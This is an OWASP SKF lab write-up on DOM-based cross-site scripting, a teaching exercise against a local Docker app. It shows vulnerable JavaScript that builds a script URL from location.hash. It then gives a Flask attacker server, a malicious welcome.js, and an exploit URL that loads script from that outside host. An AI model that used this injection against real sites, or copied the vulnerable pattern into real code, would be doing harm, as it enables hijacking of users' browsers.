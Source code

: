 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-xss-dom2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-xss-dom2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/4.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/5.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/1.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "XSS-DOM-2";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/2.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/3.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}

